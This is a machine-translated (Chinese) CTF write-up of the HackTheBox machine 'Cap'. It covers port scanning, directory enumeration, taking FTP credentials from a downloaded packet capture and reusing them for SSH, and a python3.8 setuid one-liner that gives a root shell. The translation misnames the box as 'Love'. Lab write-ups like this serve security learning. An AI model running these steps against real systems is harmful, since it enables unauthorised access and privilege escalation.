 # HTB 船长|特写，黑客盒子

> 原文：<https://infosecwriteups.com/cap-htb-writeup-hackthebox-882bb62bd60b?source=collection_archive---------1----------------------->

## 这是我为 HackTheBox 上的“爱”盒子写的文章

![](img/685615512ae8edc92866e66c336d8028.png)

# 侦察

```
Nmap scan report for 10.10.10.245
Host is up (0.079s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sun, 06 Jun 2021 02:22:52 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
```

# gobuster

```
gobuster dir -u http://10.10.10.245/ -w /usr/share/SecLists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 50
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.245/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/raft-small-words-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/data                 (Status: 302) [Size: 208] [--> http://10.10.10.245/]
/ip                   (Status: 200) [Size: 17464]                         
/capture              (Status: 302) [Size: 220] [--> http://10.10.10.245/data/7]

===============================================================
```

数据目录看起来很有趣。我们去看看。

在`/data`目录中找到了太多的`files`。在点击并尝试了`directory`中的每个文件后，我发现了一个名为`0`的`interesting`文件。

![](img/24c745918cd5bbe4e4bf9d4c1f155ce1.png)

下载后，我们找到的文件是一个. pcap 文件。所以我们找到了窃听器。然后，我们只对 ftp 流量应用过滤器，在这里我们可以找到用户名和密码。

![](img/15ac06ef075ef85273a10cf3f46954fe.png)

幸运的是，这些也是对 ssh 有用的。

所以，现在我们通过 ssh 以 nathan 的身份登录:

![](img/2686d5b1ae049f8ef28e6ade1e8206b6.png)

现在，我们可以读取 user.txt

# 权限提升

现在，使用 linpeas 收集关于这台机器的更多信息。

在分析了输出之后，我发现了一个带有`python3.8`的功能选项卡

GTFObins 将帮助您获得 root:

```
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```